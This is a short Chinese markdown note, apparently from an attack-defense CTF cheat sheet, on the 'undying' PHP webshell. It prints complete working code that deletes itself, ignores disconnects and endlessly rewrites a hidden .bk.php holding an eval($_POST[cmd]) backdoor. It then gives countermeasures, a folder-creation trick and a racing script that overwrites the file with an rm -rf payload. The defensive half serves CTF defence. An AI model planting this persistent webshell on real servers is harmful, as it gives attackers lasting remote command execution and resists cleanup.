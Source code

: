 # 不死马
```php
<?php
set_time_limit(0);
ignore_user_abort(1); #1表示，忽略与客户端断开连接，继续执行脚本
unlink(__FILE__); #执行完后删除自身
while (1) {
$content = '<?php @eval($_POST[cmd]);?>';
file_put_contents(".bk.php", $content);
usleep(1000); #停一会
}
?>
```
# 创建同名文件夹对抗不死马

其中`.bk.php`为隐藏的不死马，本命令含义为先删除`.bk.php`再创建同名文件夹`.bk.php`
```shell
mkdir .bk.php&rm .bk.php
```

或者编写一个shell脚本来进行删除

```shell
#! /bin/bash
rm .bk.php
mkdir .bk.php
```
# 条件竞争删除不死马
```php
<?php
set_time_limit(0);
ignore_user_abort(1); #1表示，忽略与客户端断开连接，继续执行脚本
unlink(__FILE__); #执行完后删除自身
while (1) {
$content = "<?php eval(system('rm -rf ./bk.php'););?>";#自行根据不死马名称进行调整
file_put_contents(".bk.php", $content);#自行根据不死马名称进行调整
usleep(100); #一定要比不死马的时间短
}
?>
```
